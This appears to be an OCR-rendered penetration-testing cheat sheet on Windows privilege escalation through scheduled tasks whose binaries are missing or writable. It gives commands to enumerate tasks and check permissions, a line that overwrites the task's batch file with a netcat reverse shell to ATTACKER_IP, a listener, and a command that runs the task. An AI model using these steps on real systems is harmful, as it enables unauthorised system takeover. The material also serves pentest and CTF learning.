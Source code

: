 You may see a scheduled task that either:
- **Lost its binary:** The task is set to run a program but the file it points to no longer exists. You could ***place your file at that path***.
- **Binary you can modify:** Task runs a binary that still exists, and you have permission to modify it.

**List Scheduled Tasks:**
```
schtasks /query /tn vulntask /fo list /v
```
- `/query:` list all scheduled tasks
- `/tn:` task name
- `/fo list:` format the output as a list

Note: `Task To Run` parameter is the one matter to us.

**Check File Permissions:**
```
icacls C:\tasks\schtask.bat
```
Note: If we see this `BUILTIN\Users:(I)(F)` than even **Users have full control**.

**Setup a Reverse Shell:**
```
echo nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

```
nc -nvlp 4444
```

**Run the Task:**
```
schtasks /run /tn vulntask
```